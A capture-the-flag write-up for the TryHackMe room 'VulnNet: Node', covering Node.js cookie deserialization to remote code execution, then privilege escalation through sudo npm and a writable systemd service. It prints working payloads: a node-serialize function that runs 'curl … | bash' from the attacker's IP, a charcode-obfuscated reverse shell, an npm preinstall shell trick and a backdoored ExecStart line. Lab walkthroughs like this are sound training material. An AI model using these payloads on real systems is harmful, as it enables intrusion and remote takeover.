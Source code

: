 ```yaml
---
description: Javascript
---
```


# 24 - VulnNet: Node

Room Link --> [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

### Enumertion

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -sS 10.10.234.78 -Pn -n -p- -T5 -vv

# output
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 63
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Wappalyzer shows us the page is running NodeJS.

Enumerating with gobuster, ffuf returned "/login". Intercepting the request with burpsuite, we see we are already assigned a  cookie.

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>in b64 format</p></figcaption></figure>

Lets decode it, in the decoder bar i selected decode as b64.

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking at the screenshot above we some some JSON encoded data. My first thought was maybe we could bypass the whole login process if we might change the cookie making the web application think we are admins

And i tried that first

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-O0ze1yZRIpR9WQ1puhE0g.png" alt="" height="288" width="700"><figcaption></figcaption></figure>

Next i sent the modified session cookie and the web application throws a 500 statuscode error.

\


<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

When you google NodeJS Serialization exploits, you stumble on this article: [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

{% code overflow="wrap" lineNumbers="true" %}
```bash
# this is the payload.
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
{% endcode %}

We will modify the following payload a bit to get it working.

To make sure that the exploit was working i tried pinging myself. First i did set up a tcpdump listener.

<figure><img src=".gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got some replies back.

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
# final payload
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.18.88.214/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}

# or we can use the nodeshell.py script on github:
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,56,46,56,56,46,50,49,52,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()","isGuest":true,"encoding": "utf-8"}
```
{% endcode %}

And got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Ess to Serv-manage

`sudo -l` - we can run npm with sudo as user "serv-manage"

So, we create a package.json with the following content:

<pre class="language-bash"><code class="lang-bash"><strong>echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
</strong></code></pre>

Then, we simply run `sudo -u serv-manage /usr/bin/npm i` and voila, we are logged in as `serv-manage`, which had the `user.txt` flag right in their home folder for us to read.

### Priv Esc to root

Running sudo -l again, we find that we can edit a system ditimer service called vulnnet-auto.timer

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

We are in the "serv-manage" group, so we have "RW" permissions to  modify this file.

<figure><img src=".gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

Let’s use locate to find the vulnnet service we have access to and examine it.

This service appears to refer to another service vulnnet-job.service let’s take a look at it too.

{% code overflow="wrap" lineNumbers="true" %}
```bash
locate vulnnet-auto.timer.timer
ls -lah /etc/systemd/system/vulnnet-job.service
cat /etc/systemd/system/vulnnet-job.service

# modified to
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "curl 10.18.88.214/shell.sh | bash"

[Install]
WantedBy=multi-user.target


```
{% endcode %}

Note i had to create a shell.sh file then put bash one-liner rev shell in it, and serve it in python server.

<figure><img src=".gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

Done.

